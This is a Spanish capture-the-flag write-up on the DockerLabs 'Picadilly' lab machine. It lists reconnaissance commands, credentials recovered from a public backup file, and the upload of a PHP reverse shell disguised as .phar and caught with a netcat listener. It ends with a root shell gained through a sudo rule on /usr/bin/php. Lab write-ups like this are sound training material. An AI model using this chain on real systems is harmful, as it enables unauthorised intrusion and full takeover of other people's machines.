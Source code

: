 # Informe Técnico - Máquina Picadilly (DockerLabs)

**Dificultad:** Fácil

**Objetivos:** Acceso inicial a la máquina, explotación de vulnerabilidades web, escalada de privilegios a root.

---

## 1. Despliegue de la Máquina

Descargamos la máquina vulnerable `picadilly.zip` desde la página oficial de DockerLabs. Para descomprimir el archivo utilizamos el siguiente comando:

```bash
7z e picadilly.zip
```

Luego desplegamos la máquina ejecutando:

```bash
sudo bash auto_deploy.sh picadilly.tar
```

![Logo](/Picadilly/Imagenes/Logo.png)
![Inicio del despliegue](/Picadilly/Imagenes/Inicio.jpeg)

Verificamos que la máquina esté activa con un simple `ping`:

```bash
ping -c1 172.17.0.2
```

![Comprobación de conectividad](/Picadilly/Imagenes/Ping.jpeg)

---

## 2. Reconocimiento con Nmap

Realizamos un escaneo completo de puertos con Nmap para identificar servicios activos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

![Puertos detectados](/Picadilly/Imagenes/Puertos.jpeg)

Después, utilizamos un script personalizado para extraer los puertos abiertos y la IP objetivo:

```bash
extractPorts allPorts.txt
```

Con los puertos relevantes, hacemos un escaneo más detallado para identificar servicios y versiones:

```bash
nmap -sC -sV -p 80,443 172.17.0.2 -oN target.txt
```

![Servicios detectados](/Picadilly/Imagenes/Servicios.jpeg)

---

## 3. Análisis de las Aplicaciones Web

Accedemos a la interfaz web en el puerto **80 (HTTP)** mediante:

```
http://172.17.0.2/
```

En esta página encontramos un archivo visible llamado `backup.txt`.

![Vista del puerto 80](/Picadilly/Imagenes/http.jpeg)
![Contenido de backup.txt](/Picadilly/Imagenes/backup.jpeg)

Este archivo contenía un acertijo cifrado con el método César. Tras descifrarlo, obtuvimos la palabra clave:

```
gcuaetzcba
```

En el archivo también encontramos credenciales:
**Usuario:** mateo
**Contraseña:** hdvbfuadcb

Accedemos al puerto **443 (HTTPS)** en:

```
https://172.17.0.2/
```

Allí se presenta una página con un sistema de publicación de posts y una funcionalidad de subida de archivos (upload).

![Página HTTPS con funcionalidad de Upload](/Picadilly/Imagenes/Pagina.jpeg)

---

## 4. Fuzzing de Directorios

Usamos herramientas de fuerza bruta para buscar rutas ocultas.

Primero con **Gobuster** en el puerto 80:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

El único archivo interesante encontrado fue `backup.txt`.

Probamos también hacer fuzzing dentro de `/backup.txt`, pero sin resultados:

```bash
gobuster dir -u http://172.17.0.2/backup.txt -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -add-slash -b 403,404 -x .php,.html,.txt
```

![Resultado de Gobuster](/Picadilly/Imagenes/gobuster.jpeg)

Para el puerto 443 usamos **Wfuzz** debido a problemas con Gobuster:

```bash
wfuzz -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 https://172.17.0.2/FUZZ
```

Encontramos que la ruta `/uploads/` estaba habilitada.

![Wfuzz detectando el directorio de subida](/Picadilly/Imagenes/wfuzz.jpeg)
![Directorio /uploads encontrado](/Picadilly/Imagenes/uploads.jpeg)

---

## 5. Obtención de Acceso con Reverse Shell

Dado que existía una opción de subir archivos en la sección de posts, intentamos subir una *reverse shell* en PHP.

El archivo fue descargado desde el repositorio de [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Para evitar restricciones de extensiones, renombramos el archivo como `.phar`. Sorprendentemente, el sistema permitía la subida sin restricción.

![Subida de archivo PHP](/Picadilly/Imagenes/post.jpeg)
![Archivo reverse shell subido exitosamente](/Picadilly/Imagenes/revellshe.jpeg)

Colocamos nuestro host en modo escucha con:

```bash
sudo nc -lvnp 443
```

Y accedimos a la shell mediante:

```
https://172.17.0.2/uploads/reverse.phar
```

¡La conexión fue exitosa!

![Shell remota activa](/Picadilly/Imagenes/shell.jpeg)

---

## 6. Escalada de Privilegios

Ya dentro del sistema, buscamos métodos para escalar privilegios.

Primero ejecutamos:

```bash
sudo -l
```

No se encontró nada útil, por lo que nos dirigimos al directorio `/home`, donde confirmamos que el usuario `mateo` existía.

Probamos autenticarnos como `mateo` con la contraseña que encontramos en el archivo `backup.txt`, ahora ya descifrada:

```
su mateo
Contraseña: easycrazy
```

Al entrar como `mateo`, volvimos a revisar sudo:

```bash
sudo -l
```

Salida:

```
(ALL) NOPASSWD: /usr/bin/php
```

Esto nos dio acceso total. Ejecutamos el siguiente comando para obtener una shell como root:

```bash
sudo /usr/bin/php -r 'system("/bin/bash");'
```

![Acceso root conseguido](/Picadilly/Imagenes/root.jpeg)

---

## Conclusión

Esta máquina presenta una ruta de explotación sencilla pero completa: detección de credenciales en un archivo público, un sistema de subida vulnerable sin filtros, y una mala configuración de `sudo` que permite ejecución de comandos como root mediante PHP. Es ideal para entender fallos típicos en seguridad web y escalada de privilegios basada en configuraciones inseguras.


